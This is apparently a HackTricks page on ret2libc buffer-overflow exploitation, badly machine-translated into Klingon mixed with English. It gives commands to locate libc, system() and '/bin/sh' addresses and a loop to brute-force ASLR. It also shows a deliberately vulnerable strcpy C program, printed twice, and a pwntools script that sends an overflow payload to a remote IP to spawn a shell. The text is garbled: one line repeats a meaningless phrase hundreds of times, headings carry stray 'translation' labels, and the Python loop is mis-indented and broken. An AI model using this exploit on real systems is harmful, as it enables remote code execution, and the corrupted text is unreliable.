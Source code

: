 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>tlhIngan Hol</strong></summary>

**HackTricks** poH **advertised** **company** **want** **download HackTricks** **PDF** Check [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

**official PEASS & HackTricks swag** [**Get**](https://peass.creator-spring.com)

**The PEASS Family** [**Discover**](https://opensea.io/collection/the-peass-family) **exclusive NFTs** [**collection**](https://opensea.io/collection/the-peass-family)

**Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** [**follow**](https://t.me/peass) **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)

**hacking tricks** **Share** **submitting PRs** [**HackTricks**](https://github.com/carlospolop/hacktricks) [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos**.

</details>


**vulnerable binary** **found** **think** **exploit** **Ret2Lib** **steps** **basic** **follow**.

# **host** **inside** **If** **are You**

## **address of lib**c **find** **can You**
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
ghorgh: 
ASLR vItlhutlh. libc vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e'
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Get offset of system function

## tlhIngan Hol translation:

## system vItlhutlh

## HTML translation:

## <h2>Get offset of system function</h2>
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## Get offset of "/bin/sh"

### tlhIngan Hol translation:

## "/bin/sh" offset qar'a'wI' jatlhlaH

### HTML translation:

<h2>"/bin/sh" offset qar'a'wI' jatlhlaH</h2>
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

If the process is creating **children** every time you talk with it (network server) try to **read** that file (probably you will need to be root).

Here you can find **exactly where is the libc loaded** inside the process and **where is going to be loaded** for every children of the process.

![](<../../.gitbook/assets/image (95).png>)

In this case it is loaded in **0xb75dc000** (This will be the base address of libc)

## Using gdb-peda

Get address of **system** function, of **exit** function and of the string **"/bin/sh"** using gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# ASLR QapHa'

chu' vItlhutlh 'e' vItlhutlh 'ej bruteforce vItlhutlh 'e' vItlhutlh 'ej libc.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Qap

```c
#include <stdio.h>

void vulnerable_function(char *input) {
    char buffer[100];
    strcpy(buffer, input);
    printf("Input: %s\n", buffer);
}

int main() {
    char input[200];
    printf("Enter input: ");
    fgets(input, sizeof(input), stdin);
    vulnerable_function(input);
    return 0;
}
```

# tlhIngan

```c
#include <stdio.h>

void vulnerable_function(char *input) {
    char buffer[100];
    strcpy(buffer, input);
    printf("Input: %s\n", buffer);
}

int main() {
    char input[200];
    printf("Enter input: ");
    fgets(input, sizeof(input), stdin);
    vulnerable_function(input);
    return 0;
}
```
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
